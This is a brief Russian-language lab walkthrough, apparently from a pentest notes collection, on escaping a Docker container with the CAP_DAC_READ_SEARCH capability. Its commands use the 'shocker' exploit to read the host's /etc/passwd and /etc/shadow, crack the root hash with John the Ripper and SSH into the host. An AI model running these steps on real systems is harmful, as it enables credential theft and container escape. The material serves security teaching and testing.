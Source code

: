 # CAP_DAC_READ_SEARCH

Позволяет обходить ограничения на ограничение доступа на чтение (а к директориям на просмотр содержимого директории) к файлам системы

Набор утилит в контейнере
```bash
apt install -y vim # or any other editor
apt install -y ssh
apt install -y gcc
apt install john -y # John the Ripper password cracker package
apt install net-tools
apt install -y netcat
```

Запуск уязвимого контейнера 
```bash
sudo docker run -it --cap-add=DAC_READ_SEARCH ubuntu_golden_image:v01 bash
```

Получение хэша пароля от рута
```bash
# Copy the shocker.c content
vim shocker.c
gcc -o shocker shocker.c
# Use the shocker to read files from host:./shocker /host/path /container/path
./shocker /etc/passwd passwd
./shocker /etc/shadow shadow
# Combine passwd and shadow files 
unshadow passwd shadow > password
# Use John the Ripper to crack passwords
john password
# Connect to the host with the John the ripper’s output credentials
ssh <USER-NAME>@<HOST-IP>
password: <password from john’s output>
```
